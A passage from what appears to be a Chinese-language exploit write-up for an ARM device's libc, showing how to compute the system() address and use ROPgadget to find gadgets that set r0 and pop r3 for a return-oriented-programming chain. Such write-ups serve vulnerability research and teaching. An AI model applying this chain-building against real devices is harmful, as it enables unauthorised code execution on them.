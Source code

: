 因此

```bash
system_addr = libc_base_addr + system_offset
```

#### 5\. 寻找 gadget

使用 ROPgadget，在 libc 中找一个可以控制 r0 的 gadget

```bash
ROPgadget --binary ./lib/libc.so.0 | grep "mov r0, sp"
```

[![](assets/1706958084-d8ae83188c8fb6784a8e087fe49199ae.png)](https://intranetproxy.alipay.com/skylark/lark/0/2024/png/94156442/1706708325941-1e45ea07-e831-4a21-a106-1fec6c1889e5.png)

可以看到可以利用的 gadget 非常多，随便选一个即可，比如 0x00040cb8，这个比较简短

```bash
move_r0= libc_base_addr+ 0x00040cb8
```

再在 libc 中找一个可以 pop 到 r3 的 gadget

```bash
ROPgadget --binary ./lib/libc.so.0 --only "pop"|grep r3
```
